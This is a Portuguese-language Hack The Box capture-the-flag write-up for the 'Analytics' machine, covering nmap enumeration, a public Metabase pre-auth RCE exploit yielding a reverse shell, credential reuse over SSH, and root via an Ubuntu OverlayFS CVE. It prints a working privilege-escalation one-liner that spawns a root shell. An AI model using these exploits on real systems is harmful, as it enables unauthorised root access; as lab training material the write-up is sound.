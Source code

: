 ```yaml
---
description: CTF do Hack The Box como fiz e anotações.
title: HackTheBox - Analytics - Facíl
date: 2024-02-07 22:35:00 +/-0300
categories: [CTF, HackTheBox]
tags: [ctf, hackthebox, linux, web, facil, ]     # TAG names should always be lowercase
show_image_post: true
---
```

![logo](/assets/img/analytics.png){: w="100" h="100" .left}

---
# **CTF - Analytics**
---
---
## **Enumeração**

### nmap

```shell
╭─      ~/HTB/analytics      
╰─ sudo nmap -sV -Pn -sS  --min-rate 5000 -stats-every 7s -p- 10.10.11.233 -oN nmap
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-04 20:30 -03
Nmap scan report for 10.10.11.233
Host is up (0.14s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.39 seconds
```
{: .nolineno }
Domínios adicionado ao `/etc/hosts`  
10.10.11.233    analytical.htb data.analytical.htb  
Porta 80 esse site e página de login em data.analytical.htb  
![alt text](/assets/img/analytics1.png)
data.analytical.htb
![alt text](/assets/img/analytics2.png)

**ffuf nada encontrado.**

## **Acesso**
Pesquisa por Metabase exploit encontrado `CVE-2023-38646 POC`  
<https://github.com/shamo0/CVE-2023-38646-PoC>  
<https://github.com/m3m0o/metabase-pre-auth-rce-poc>

### reverse shell
Seguindo os sites sobre o exploit acima, acessei o endereço para pegar o token.
![alt text](/assets/img/analytics3.png)  

Executando o exploit e recebendo reverse shell.  

![alt text](/assets/img/analytics4.png)

Rodei o Linpeas e de acordo com ele estamos dentro de um docker.
![alt text](/assets/img/analytics5.png)

Retornou também essas credenciais.  
Usando o comando env também é retornado essas credenciais.
![alt text](/assets/img/analytics6.png)  

### Primeira Flag
Tentando usar as credencias via ssh conectou com sucesso.  
Ao logar ja tem a primeira flag.  

![alt text](/assets/img/analytics7.png)

## **Escalação de privilégio**

Sem acesso a sudo

```shell
metalytics@analytics:~$ sudo -l
[sudo] password for metalytics: 
Sorry, user metalytics may not run sudo on localhost.
```
{: .nolineno }
Executei suid3num 

```shell
[#] SUID Binaries found in GTFO bins..                                                      
------------------------------                              
[!] None :(      
------------------------------ 
```     
{: .nolineno }
Rodei o linpeas chequei algumas coisas e nada, ao pesquisar pela versão do linux "Ubuntu 22.04.3 LTS exploit" encontrei esse site:
<https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629>

Acabei me lembrando que na box hospital tem o mesmo CVE.
Não precisa colocar o exploit na maquina, apenas abra ele e copie a última linha e execute no terminal, depois de executar use rm /var/tmp/bash, o exploit cria um bash com SUID, e caso tenha mais pessoas na box pode achar que a  solução e por esse bash com SUID, ou apenas use esse comando abaixo:  
`unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"/bin/bash\")'"`
### Segunda Flag
![alt text](/assets/img/analytics8.png)

**Conhecimentos aquiridos:**
- Sobre CVE do metabase
- Identificar que está em um docker
- Sempre checar o básico antes, buscar por vulnerabilidade do Kernel Version e Linux version.
  
![alt text](/assets/img/analytics9.png)